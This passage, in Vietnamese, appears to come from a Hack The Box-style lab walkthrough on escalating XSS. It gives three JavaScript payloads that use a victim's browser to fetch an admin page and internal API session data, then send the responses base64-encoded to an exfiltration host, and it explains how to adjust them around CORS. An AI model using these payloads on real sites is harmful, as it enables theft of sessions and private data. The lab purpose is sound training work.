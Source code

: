 Sau khi mã XSS được kích hoạt, chúng ta sẽ tiếp tục xâm nhập và trích xuất thông tin từ trang quản trị. Dưới đây là mã JavaScript để gửi yêu cầu GET đến trang quản trị `/admin.php` và thu thập dữ liệu từ đó:

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', '/admin.php', false);
xhr.withCredentials = true;
xhr.send();

var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```

Dữ liệu thu được từ trang quản trị tiết lộ một API nội bộ có đường dẫn `http://api.vulnerablesite.htb/`. Tuy nhiên, khi chúng ta cố gắng truy cập API này, sẽ có một lỗi xảy ra vì API chỉ có thể truy cập từ mạng nội bộ của nạn nhân. Điều này yêu cầu chúng ta phải điều chỉnh payload của mình để tiếp tục khảo sát API từ phía trình duyệt của nạn nhân.

### Bước 2: Liệt kê API nội bộ

Để tiếp tục, chúng ta cần điều chỉnh payload để truy xuất dữ liệu từ các API mà nạn nhân có thể truy cập được. Ví dụ, giả sử chúng ta muốn trích xuất endpoint `/v1/sessions` từ API nội bộ. Chúng ta sẽ tạo một payload như sau:

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://api.vulnerablesite.htb/v1/sessions', false);
xhr.withCredentials = true;
xhr.send();

var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```

Tuy nhiên, nếu chúng ta không nhận được dữ liệu trên máy chủ exfiltration, có thể xảy ra sự cố với việc thiết lập CORS. Để tránh các lỗi này, chúng ta cần đảm bảo payload của mình khớp với cách mà ứng dụng gốc đang thực hiện yêu cầu, đặc biệt là đối với các header `credentials`.

### Bước 3: Đối phó với chính sách Same-Origin và CORS

Trong trường hợp xảy ra lỗi CORS (Cross-Origin Resource Sharing), có thể vì ứng dụng không gửi yêu cầu với `credentials: 'include'` như chúng ta đang làm trong payload. Để khắc phục điều này, chúng ta cần điều chỉnh payload để không gửi cookie hoặc thông tin xác thực, giống như cách mà ứng dụng gốc thực hiện:

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://api.vulnerablesite.htb/v1/sessions', false);
xhr.send();

var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```
